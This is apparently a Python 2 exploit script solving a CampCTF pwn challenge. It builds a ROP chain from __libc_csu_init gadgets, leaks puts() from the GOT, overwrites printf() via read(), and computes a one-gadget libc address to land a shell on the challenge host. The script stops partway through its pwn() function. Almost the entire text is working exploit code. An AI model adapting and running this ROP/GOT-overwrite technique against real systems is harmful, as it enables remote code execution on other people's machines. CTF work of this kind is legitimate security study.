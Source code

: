 ```python
payload = "A"*136   # ty Swappage!

'''
0x000002bc : pop r12; pop r13; pop r14; pop r15; ret
0x000002b6 : xor ebx, ebx; nop [rax + rax]; mov rdx, r13; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
0x00000060 : pop rbp; ret
'''

base = 0x400590
# prologue, needed for later!
payload += q(0x00000060+base)   # pop rbp ; ret
payload += q(1) # value for rbp

payload += q(0x000002dc+base)
payload += q(0x600c70)  # value for r12 -> puts@got
payload += q(0)         # value for r13 -> goes into rdx 
payload += q(0)         # value for r14 -> goes into rsi
payload += q(0x600c70)  # value for r15 -> goes into rdi -> leak addr of puts()

payload += q(0x000002b6+base)
payload += q(0) * 7
payload += q(0x400570)  # fflush@plt

# now read() to overwrite printf()
payload += q(0x00000060+base)   # pop rbp ; ret
payload += q(1) # value for rbp

payload += q(0x000002dc+base)
payload += q(0x600c80)  # value for r12 -> read@got
payload += q(8)         # value for r13 -> goes into rdx -> count
payload += q(0x600c70)  # value for r14 -> goes into rsi -> overwrite printf()
payload += q(0)         # value for r15 -> goes into rdi -> 0 -> stdin

payload += q(0x000002b6+base)
payload += q(0) * 7

payload += q(0x4006ec) # restart, so the binary will execute puts() -> one shot rce, lands a shell

def pwn():
    global s
    s = socket(AF_INET, SOCK_STREAM)
    s.connect(('challs.campctf.ccc.ac', 10106))
    #s.connect(('localhost', 4444))

    print readtil('name?')
    s.send('a\n')
    print readtil('message:')
    s.send('-1\n')   # ty Swappage!
    print readtil('text:')
    s.send(payload+'\n')
    print readtil('Thanks!\n')
    
    data = s.recv(8)
    data = data[:-1] + "\x00\x00"
    
    puts_addr = struct.unpack('<Q', data)[0]
    print "[+] Leaked puts(): " + hex(struct.unpack('<Q', data)[0])
    libc_base = puts_addr - 0x70a30
    print "[+] libc base addr: " + hex(libc_base)
    system_addr = libc_base + 0x442AA # one shot rce, ty superkojiman!
    print "[+] sending one shot rce addr (" + hex(system_addr) + ")"
    
```